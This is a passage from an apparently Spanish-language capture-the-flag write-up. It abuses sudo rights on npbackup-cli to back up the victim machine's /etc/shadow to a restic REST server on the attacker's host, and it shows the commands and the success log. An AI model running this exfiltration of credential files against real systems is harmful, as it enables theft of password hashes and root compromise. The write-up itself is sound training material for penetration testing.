 Con esto ya vamos a tener nuestro servidor a la escucha, ahora vamos a inicializar un repo en dicho servidor de dicha ruta establecida:

```shell
snap install restic --classic
/snap/bin/restic init -r "rest:http://<IP>:6666/Pwn3d"
```

Metemos como contraseña lo que queramos, en mi caso puse `diseo` y con esto se nos creara nuestro repo llamado `Pwn3d`, ahora desde la maquina victima nos vamos a pasar el archivo `/etc/shadow`.

Primero como el repo va con contraseña, vamos a crear un archivo con la contraseña en texto plano para posteriormente pasarsela a la herramienta:

```shell
echo "diseo" | tee /tmp/restic-password > /dev/null
chmod 777 /tmp/restic-password
```

Ahora habiendo creado este archivo, vamos a utilizarlo como contraseña para realizar la conexion a nuestro servidor del atacante y que nos realice un `backup` del archivo `shadow` de esta forma:

```shell
sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf --raw "backup -r 'rest:http://<IP_ATTACKER>:6666/Pwn3d' --password-file /tmp/restic-password /etc/shadow"
```

Info:

```
2025-09-19 16:29:01,251 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-09-19 16:29:01,282 :: INFO :: Loaded config 4E3B3BFD in /home/marco/npbackup.conf
2025-09-19 16:29:01,294 :: INFO :: Running raw command: backup -r 'rest:http://10.10.14.85:6666/Pwn3d' --password-file /tmp/restic-password /etc/shadow
no parent snapshot found, will read all files

Files:           1 new,     0 changed,     0 unmodified
Dirs:            1 new,     0 changed,     0 unmodified
Added to the repository: 2.027 KiB (1.210 KiB stored)

processed 1 files, 1.339 KiB in 0:00
snapshot 8ba0bb36 saved
2025-09-19 16:29:04,211 :: INFO :: Successfully run raw command:
no parent snapshot found, will read all files

Files:           1 new,     0 changed,     0 unmodified
Dirs:            1 new,     0 changed,     0 unmodified
Added to the repository: 2.027 KiB (1.210 KiB stored)

processed 1 files, 1.339 KiB in 0:00
snapshot 8ba0bb36 saved

2025-09-19 16:29:04,212 :: INFO :: Runner took 2.919008 seconds for raw
2025-09-19 16:29:04,212 :: INFO :: Operation finished
2025-09-19 16:29:04,219 :: INFO :: ExecTime = 0:00:02.970154, finished, state is: success.
```
